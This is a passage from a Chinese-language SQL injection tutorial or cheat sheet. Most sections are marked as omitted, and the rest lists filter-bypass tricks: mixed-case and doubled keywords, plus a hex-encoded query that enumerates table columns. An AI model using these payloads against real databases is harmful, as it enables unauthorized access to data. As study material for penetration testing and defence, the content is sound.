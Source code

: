 略

### base64注入

略

### sqlserver注入

略

### oracl注入

略

### access(偏移注入)

略



## 常见sql注入绕过方法

### 大小写

```sql
SEleCT * fROm users wHEre id=1
Or
and
wHEre
```

### 双写

滞空/替换

```sql
sEselectleCt   --替空select后-->  sEleCt
anandd
uniUNionon
```

### 编码绕过

hex()编码

```
select hex(group_concat(column_name)) from information_schema.columns where table_schema=database() and table_name=0x7573657273 
```

url()  --> 双重url编码

unicode编码

bin()

### 空格绕过
